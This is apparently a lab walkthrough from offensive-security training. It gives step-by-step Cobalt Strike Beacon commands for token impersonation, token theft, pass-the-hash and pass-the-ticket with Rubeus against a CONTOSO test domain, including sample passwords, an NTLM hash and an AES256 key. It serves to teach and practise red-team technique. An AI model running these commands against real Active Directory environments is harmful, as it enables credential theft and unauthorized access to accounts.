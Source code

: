 ### Token Impersonation

## Make Token

1.  From the medium-integrity Beacon, create and impersonate an access token for rsteel.
    
    1. make_token CONTOSO\rsteel Passw0rd!
2.  Drop the impersonation.
    
    1. rev2self

## Steal Token

1.  From the high-integrity Beacon, open the Process Browser.
    
    1. process_browser
2.  Select a process owned by rsteel.
    
3.  Steal the primary access token of that process and add it to the token store.
    
    1. Click **Steal Token**.
    2. Mask Type: TOKEN_ALL_ACCESS
    3. Store: true
4.  Impersonate that token.
    
    1. Run token-store use 0 from the Beacon console.
5.  Drop the impersonation.
    
    1. rev2self
6.  Remove the token from the store.
    
    1. token-store remove 0

# Pass the Hash

1.  From the high-integrity Beacon, perform a PtH attack for Robert Steel.
    
    1. pth CONTOSO\rsteel fc525c9683e8fe067095ba2ddc971889
2.  Drop the impersonation.
    
    1. rev2self

# Pass the Ticket

1.  Using their AES256 key, request a TGT for rsteel from the medium-integrity Beacon.
    
    
```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:rsteel /domain:CONTOSO.COM /aes256:05579261e29fb01f23b007a89596353e605ae307afcd1ad3234fa12f94ea6960 /nowrap
```

2.  From the high-integrity Beacon, inject and impersonate the ticket.
    
    BeaconTypeCopy
    
    `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\notepad.exe /username:rsteel /domain:CONTOSO.COM /password:FakePass /ticket:[TGT]`
    
    1. steal_token [PID]
3.  Drop the impersonation.
    
    1. rev2self
    2. kill [PID]
